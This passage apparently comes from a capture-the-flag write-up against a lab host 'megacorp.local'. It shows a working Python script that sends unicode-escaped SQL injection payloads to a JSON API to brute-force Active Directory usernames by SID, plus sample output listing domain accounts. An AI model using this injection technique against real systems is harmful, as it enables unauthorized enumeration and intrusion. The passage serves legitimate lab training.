```python
        number_of_sub_ids = sid[1]
    iav = struct.unpack('>Q', b'\x00\x00' + sid[2:8])[0]
    sub_ids = [struct.unpack('<I', sid[8 + 4 * i:12 + 4 * i])[0]
               for i in range(number_of_sub_ids)]

    return 'S-{0}-{1}-{2}'.format(revision, iav, '-'.join([str(sub_id) for sub_id in sub_ids]))

def utfme(str):
    val = []
    for i in str:
        val.append("\\u00"+hex(ord(i)).split("x")[1])
    
    return ''.join([i for i in val])

sid = prepare_sid('0x0105000000000005150000001c00d1bcd181f1492bdfc236f4010000')

url = 'http://megacorp.local/api/getColleagues'
for i in range (500,10000):
	payload = f"a' union select 1,1,1,1,(SUSER_SNAME(SID_BINARY('S-1-5-21-3167813660-1240564177-918740779-{i}')))--"
	encoded_payload = utfme(payload)
	r = requests.post(url, data= '{"name":"' + utfme(payload) + '"}',headers={'Content-Type': 'Application/json'})
	data = json.loads(r.text)
	src_value = data[0]['src']
	try:
		username = src_value.split('\\')[1]
		print(username)
	except:
		print('nope!')
	time.sleep(3)
```

This would slowly brute force all the users out. I included the 'nope!' part to let me know that the script was still running fine. This script takes quite long...but eventually we would get some valid users. Here's what the output of my script looks like:

```
$  python3 sql_enum.py
S-1-5-21-3167813660-1240564177-918740779-

Administrator
Guest
krbtgt
DefaultAccount
nope!
nope!
nope!
nope!
nope!
nope!
nope!
nope!
Domain Admins
Domain Users
Domain Guests
Domain Computers
Domain Controllers
...
```
